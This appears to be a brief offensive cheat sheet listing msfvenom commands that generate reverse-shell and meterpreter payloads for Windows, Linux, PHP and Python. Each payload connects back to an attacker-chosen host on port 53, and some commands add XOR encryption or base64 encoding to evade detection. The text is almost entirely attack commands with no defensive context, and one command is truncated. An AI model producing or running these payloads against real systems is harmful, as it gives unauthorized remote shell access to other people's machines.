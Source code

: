generate payload w/ msfvenom

<h5>windows</h5>
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.5.5 LPORT=53 -f exe > 

```
OR

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=wlan0 LPORT=53 -f raw --encrypt xor --encrypt-key “encryption key mo dito” -o shell.bin
```

![file:///tmp/.3I5P42/1.png](file:///tmp/.3I5P42/1.png)

<h5>linux</h5>
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.X.X LPORT=53 > linux
```
OR
```
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=<lhost> LPORT=<lport>
```

<h5>php and python </h5>
php (with iteration)
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.2.2 LPORT=53 -e php/base64 -i 1 > file.php
```
python
```
msfvenom -p python/shell_reverse_tcp LHOST=192.168.2.2 LPORT=53 > file
```